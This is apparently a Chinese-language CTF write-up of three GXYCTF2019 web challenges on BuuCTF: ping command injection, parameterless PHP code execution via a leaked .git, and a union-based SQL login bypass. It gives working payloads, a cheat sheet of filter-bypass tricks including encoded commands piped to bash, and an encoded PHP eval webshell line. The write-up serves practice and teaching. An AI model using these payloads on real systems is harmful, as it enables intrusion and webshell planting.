







弄完事情吃完饭,都没时间打，BuuCTF复现一下
[GXYCTF2019]Ping Ping Ping
记得XCTF有道相似题型，当时一看到这题就想起来了，但是写payload的时候多打了个空格。。。试了好多次后没发现，还以为我思路错了。。。
题目让我们ping ip
127.0.0.1|ls

爆出有index.php以及flag.php，但是题目过滤了空格。
“奇淫技巧”：?ip=;cat$IFSls;
也能出！！！！学到了！

linux常见绕过方法
空格过滤
< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
一些命令分隔符
linux中：%0a 、%0d 、; 、& 、| 、&&、||
windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符）花括号的别样用法
在Linux bash中还可以使用{OS_COMMAND,ARGUMENT}来执行系统命令
{cat,flag}黑名单绕过
- 拼接绕过:a=l;b=s;$a$b
- 编码绕过
base64：
echo “Y2F0IC9mbGFn”|base64-d|bash
==>cat /flag
hex：
echo “636174202f666c6167” | xxd -r -p|bash
==>cat /flag
oct：
$(printf “\154\163”)
==>ls
$(printf “\x63\x61\x74\x20\x2f\x66\x6c\x61\x67”)
==>cat /flag
{printf,”\x63\x61\x74\x20\x2f\x66\x6c\x61\x67”}|$0
==>cat /flag
#可以通过这样来写webshell,内容为
${printf,”\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76”}
==> 1.php - 单引号和双引号绕过
比如：ca’’t flag 或ca””t flag - 反斜杠绕过
比如：ca\t fl\ag - 5、利用Shell 特殊变量绕过
例如，第一个参数是1，第二个参数是2。而参数不存在时其值为空。
$@表示（$@:同样也是获取当前shell的参数，不加引号和$*是一样的，那么加了引号如：”$@” 表示将所有的参数视为不同独立的字符串，相当于”$1” “$2”..）
比如：ca$@t fla$@g
ca$1t fla$2g
- 拼接绕过:a=l;b=s;$a$b
linux中直接查看文件内容的命令
cat、tac、more、less、head、tail、nl、sed、sort、uniq、
这道题利用$IFS构造空格，发现他还过滤了flag以及/等字符。利用变量构造。
payload：?ip=127.0.0.1;b=lag;a=f;cat$IFS$a$b.php

[GXYCTF2019]禁止套娃
参考Pdsdt
无参数RCE
git泄露源码，利用githack
python GitHack.py http://f947babc-b762-4a48-bbe9-8fe7414d39a8.node3.buuoj.cn/.git/
1 | <?php |
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
scandir() 列出 images 目录中的文件和目录。
readfile() 输出一个文件。
current() 返回数组中的当前单元, 默认取第一个值。
pos() current() 的别名。
next() 函数将内部指针指向数组中的下一个元素，并输出。
array_reverse()以相反的元素顺序返回数组。
highlight_file()打印输出或者返回 filename 文件中语法高亮版本的代码。
localeconv() 函数返回一包含本地数字及货币格式信息的数组，结合pos()能得到.，也就是当前目录==>然后再加上scandir就能获取当前目录的所有的文件
payload:
print_r(scandir(pos(localeconv())));

之后我们利用array_reverse() 将数组内容反转一下，利用next()指向flag.php文件==>highlight_file()高亮输出。
payload:?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
[GXYCTF2019]BabySQli
在进行sql注入探测中，发现有base32解密， 解完还有一层base64，最后出来sql语句：select * from user where username = '$name'
探测一共有几个字段
Error: The used SELECT statements have a different number of columns
通过列数不同报错，可以确定有三个字段，当为三个参数时，报账号错误
0' union select 0,1,3#&pw=123
wrong user!


当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据
当查询到有的值：

构造payload:
0' union select 0,'admin','e10adc3949ba59abbe56e057f20f883e'#&pw=123456